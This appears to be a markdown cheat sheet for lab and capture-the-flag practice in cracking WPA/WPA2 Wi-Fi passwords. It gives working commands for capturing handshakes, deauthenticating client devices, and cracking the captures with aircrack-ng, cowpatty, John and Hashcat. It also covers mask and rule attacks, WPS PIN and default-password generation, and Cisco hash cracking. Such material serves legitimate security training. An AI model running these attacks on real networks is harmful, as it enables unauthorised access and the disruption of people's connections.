

# Wi-Fi Password Cracking Techniques

> **Purpose:** A detailed reference for cracking Wi-Fi passwords using traditional WPA attacks, Hashcat/JtR workflows, and auxiliary credential-generation tools.  
> **Audience:** Students and red teamers practicing Wi-Fi password cracking in controlled labs.

---

## Overview Workflow



---

## 1. The Traditional WPA Attack

### Concept: Capturing and Cracking WPA/WPA2 Handshakes

This is the standard 4-way handshake capture and cracking workflow.

#### **Enable Monitor Mode**

```bash
sudo airmon-ng start wlan0
```

**Breakdown:**

- `airmon-ng`: part of Aircrack-ng suite; enables monitor mode.
    
- `wlan0`: target wireless interface.
    

#### **Scan for Networks and Clients**

```bash
sudo airodump-ng wlan0mon -c 1 -w WPA
```

**Breakdown:**

- `airodump-ng`: captures packets and displays networks/clients.
    
- `-c 1`: limit scan to channel 1.
    
- `-w WPA`: write capture to files (WPA-01.cap, WPA-01.csv, etc.).
    

#### **Deauthentication Attack**

```bash
sudo aireplay-ng -0 5 -a 80:2D:BF:FE:13:83 -c 8A:00:A9:9B:ED:1A wlan0mon
```

**Breakdown:**

- `-0 5`: send 5 deauth frames.
    
- `-a`: BSSID (target AP MAC).
    
- `-c`: client MAC (victim).
    
- `wlan0mon`: monitor-mode interface.
    

#### **Validate Captured Handshake**

```bash
cowpatty -c -r WPA-01.cap
```

**Breakdown:**

- `-c`: check mode.
    
- `-r`: input capture file.
    

#### **Crack with Cowpatty**

```bash
cowpatty -r WPA-01.cap -f /opt/wordlist.txt -s HackTheBox
```

**Breakdown:**

- `-r`: capture file.
    
- `-f`: wordlist file.
    
- `-s`: target SSID.
    

#### **Crack with Aircrack-ng**

```bash
aircrack-ng WPA-01.cap -w /opt/wordlist.txt
```

**Breakdown:**

- `aircrack-ng`: cracks WPA handshakes.
    
- `-w`: specify dictionary.
    
- `WPA-01.cap`: handshake capture file.
    

---

## 2. Converting Handshakes for Hash Cracking

#### **Convert to John Format**

```bash
./wpapcap2john WPA-01.pcap > hash
```

**Breakdown:**

- Converts `.pcap` to a John-compatible hash format.
    
- Output is saved to `hash` file.
    

#### **Crack with John the Ripper**

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=wpapsk
```

**Breakdown:**

- `--wordlist`: specifies dictionary.
    
- `--format=wpapsk`: WPA hash type.
    

#### **Convert to Hashcat Format**

```bash
hcxpcapngtool -o hash WPA-01.pcap
```

**Breakdown:**

- `hcxpcapngtool`: converts `.pcap` to `.hc22000` format for Hashcat.
    
- `-o`: output file.
    

#### **Crack with Hashcat**

```bash
hashcat -m 22000 --force hash wordlist.txt
```

**Breakdown:**

- `-m 22000`: WPA-PBKDF2 (22000 mode).
    
- `--force`: override warnings.
    
- `hash`: hash file.
    
- `wordlist.txt`: dictionary file.
    

---

## 3. Using Hashcat Efficiently

### Concept: Hardware Optimization and Attack Modes

#### **Identify Devices**

```bash
hashcat -I
```

**Breakdown:**

- Lists available CPUs and GPUs.
    

#### **CPU-Based Cracking**

```bash
hashcat -m 22000 hash wordlist.txt -D 1 -d 2
```

**Breakdown:**

- `-D 1`: selects CPU backend.
    
- `-d 2`: selects specific CPU device ID.
    

#### **GPU-Based Cracking**

```bash
hashcat -m 22000 hash wordlist.txt -D 2 -d 8
```

**Breakdown:**

- `-D 2`: GPU backend.
    
- `-d 8`: device ID.
    

#### **Performance Tweaks**

```bash
hashcat -m 22000 hash wordlist.txt -w 3
hashcat -m 22000 hash wordlist.txt -O
```

**Breakdown:**

- `-w 3`: workload profile (1–4). Higher = more resource intensive.
    
- `-O`: optimized kernel (faster, limited max password length).
    

#### **Bind CPU Cores / Threads**

```bash
hashcat -m 22000 hash wordlist.txt -D 1 --cpu-affinity=1,2,3,4
hashcat -m 22000 hash wordlist.txt -D 1 --cpu-affinity=1,2,3,4 --hook-threads=8
```

**Breakdown:**

- `--cpu-affinity`: assign specific cores.
    
- `--hook-threads`: limit or increase active threads.
    

#### **Use CPU and GPU Together**

```bash
hashcat -m 22000 hash wordlist.txt -D 1,2 -d 1,2
```

**Breakdown:**

- Combines CPU and GPU workloads.
    

#### **Apply Rules to Wordlist**

```bash
hashcat -m 22000 hash wordlist.txt -r /usr/share/hashcat/rules/T0XlC.rule
```

**Breakdown:**

- `-r`: applies rule file (mutations on words).
    

---

## 4. Attack Types in Hashcat

|Mode|Description|Example|
|---|---|---|
|`-a 0`|Dictionary|`hashcat -a 0 -m 22000 hash rockyou.txt`|
|`-a 1`|Combinator|`hashcat -a 1 -m 22000 hash wordlist1 wordlist2`|
|`-a 3`|Mask (Brute-force pattern)|`hashcat -a 3 -m 22000 hash '?u?l?l?l?l?d?d'`|
|`-a 6`|Hybrid (Wordlist + Mask)|`hashcat -a 6 -m 22000 hash wordlist.txt ?d?d?d`|
|`-a 7`|Hybrid (Mask + Wordlist)|`hashcat -a 7 -m 22000 hash ?d?d?d wordlist.txt`|

---

## 5. Hashcat Rule Operations

|Rule|Description|
|---|---|
|`c`|Capitalize first, lowercase rest|
|`C`|Lowercase first, uppercase rest|
|`t`|Toggle case of all chars|
|`T2`|Toggle case of character at position 3|
|`$1`|Append "1"|
|`^1`|Prepend "1"|
|`r`|Reverse word|
|`sa@`|Replace 'a' with '@'|
|`d`|Duplicate word|
|`z5`|Repeat first character 5 times|
|`Z5`|Repeat last character 5 times|

---

## 6. Hashcat Masks

|Mask|Meaning|
|---|---|
|`?l`|Lowercase letters|
|`?u`|Uppercase letters|
|`?d`|Digits|
|`?s`|Special characters|
|`?a`|Combination of `?l`, `?u`, `?d`, and `?s`|
|`?b`|All possible byte values|

---

## 7. Generating Credentials

### Concept: Creating and Enhancing Wordlists

#### **Manufacturer Lookup**

```bash
grep -i "9C-C9-EB" /var/lib/ieee-data/oui.txt
```

**Breakdown:**

- Checks manufacturer of MAC prefix.
    

#### **Netgear Default Passwords**

```bash
python3 NPCinator.py > passwords.txt
```

**Breakdown:**

- Generates likely Netgear default passwords.
    

#### **WPS PIN Generation**

```bash
wpspin D4:BF:7F:EB:29:D2
wpspin -A D4:BF:7F:EB:29:D2
```

**Breakdown:**

- First command: default WPS PIN.
    
- Second: all possible algorithmic PINs.
    

#### **Wordlist Generators**

```bash
cupp -i
cewl http://logistics.local -d 4 -m 8 -w inlane.wordlist
```

**Breakdown:**

- `cupp`: interactive personal wordlist generator.
    
- `cewl`: crawl site, extract words with min length 8, depth 4.
    

#### **Username Permutations**

```bash
./username-anarchy David Smith
./username-anarchy --list-formats
./username-anarchy --country france --auto
./username-anarchy --recognise j.smith
```

**Breakdown:**

- Generates username combinations and format patterns.
    

---

## 8. Miscellaneous Attacks

### Concept: Cracking or Decrypting Non-WPA Hashes (Cisco, etc.)

#### **Precomputed Hash Table**

```bash
genpmk -f /opt/rockyou.txt -d /tmp/hashtable -s HackTheBox
```

**Breakdown:**

- Precomputes PMK hashes for faster WPA cracking.
    

#### **Cisco Password Types**

|Type|Hashcat Mode|John Format|Example Command|
|---|---|---|---|
|Type 4|5700|Raw-SHA256|`hashcat -m 5700 -O -a 0 hash rockyou.txt`|
|Type 5|500|md5crypt|`hashcat -m 500 -O -a 0 hash rockyou.txt`|
|Type 7|—|ciscot7.py|`python ciscot7.py -d -p <hash>`|
|Type 8|9200|pbkdf2-hmac-sha256|`hashcat -m 9200 -a 0 hash rockyou.txt`|
|Type 9|9300|scrypt|`hashcat -m 9300 -a 0 --force hash rockyou.txt`|

---

## 9. Common Scenarios

|Phase|Action|Command|
|---|---|---|
|Capture|Grab handshake|`sudo airodump-ng -c <CH> -w cap wlan0mon`|
|Validate|Check if handshake is valid|`cowpatty -c -r cap-01.cap`|
|Convert|Prepare for Hashcat|`hcxpcapngtool -o hash cap-01.pcap`|
|Crack|Dictionary|`hashcat -m 22000 hash rockyou.txt`|
|Crack|Mask brute-force|`hashcat -a 3 -m 22000 hash '?u?l?l?d?d?d'`|
|Optimize|Apply rule-based attack|`hashcat -m 22000 hash -r rules/T0XlC.rule`|

---

## 10. Troubleshooting Tips

|Problem|Cause|Fix|
|---|---|---|
|Slow cracking|CPU backend selected unintentionally|Use GPU: `-D 2`|
|High GPU temps|Fan curve too low|Increase cooling / reduce workload (`-w 2`)|
|Hashcat out-of-memory|Mask too large / kernel too heavy|Remove `-O` or lower mask length|
|"Hashfile 'hash' on line 1 invalid"|Wrong conversion format|Reconvert with `hcxpcapngtool`|
|GPU not detected|Missing drivers / incorrect backend|Install OpenCL/CUDA drivers; check with `hashcat -I`|

---

## 11. Cross-tool Reference

|Purpose|Tool|Alternative|
|---|---|---|
|Handshake validation|`cowpatty -c`|`aircrack-ng` handshake check|
|Convert PCAP → Hashcat|`hcxpcapngtool`|`cap2hccapx` (deprecated)|
|Crack WPA|`hashcat -m 22000`|`john --format=wpapsk`|
|Wordlist generation|`cewl`, `cupp`|`Mentalist`, `Crunch`|

---

### Summary

- **Capture:** Use `airodump-ng` and `aireplay-ng` to grab handshake.
    
- **Convert:** Transform `.pcap` to proper hash format.
    
- **Crack:** Choose tool: Aircrack-ng, John, or Hashcat.
    
- **Optimize:** Use masks/rules and hardware tuning.
    
- **Generate:** Expand wordlists with CUPP, CeWL, NPCinator.